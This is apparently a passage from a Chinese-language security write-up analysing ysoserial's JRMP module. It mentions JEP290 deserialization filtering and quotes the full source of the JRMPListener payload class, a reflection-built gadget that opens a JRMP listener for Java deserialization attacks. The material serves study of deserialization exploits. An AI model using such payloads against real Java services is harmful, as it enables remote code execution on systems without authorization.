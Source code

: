 ![image-20220415143610948](images/2.png)

这里因为JEP290的原因返回了REJECTED

JEP290只是针对服务端的的反序列化做了过滤

# YSO的JRMP模块分析

## payloads/JRMPListener

对应代码如下

```
public class JRMPListener extends PayloadRunner implements ObjectPayload<UnicastRemoteObject> {

    public UnicastRemoteObject getObject ( final String command ) throws Exception {
        int jrmpPort = Integer.parseInt(command);
        UnicastRemoteObject uro = Reflections.createWithConstructor(ActivationGroupImpl.class, RemoteObject.class, new Class[] {
            RemoteRef.class
        }, new Object[] {
            new UnicastServerRef(jrmpPort)
        });

        Reflections.getField(UnicastRemoteObject.class, "port").set(uro, jrmpPort);
        return uro;
    }


    public static void main ( final String[] args ) throws Exception {
        PayloadRunner.run(JRMPListener.class, args);
    }
}
```
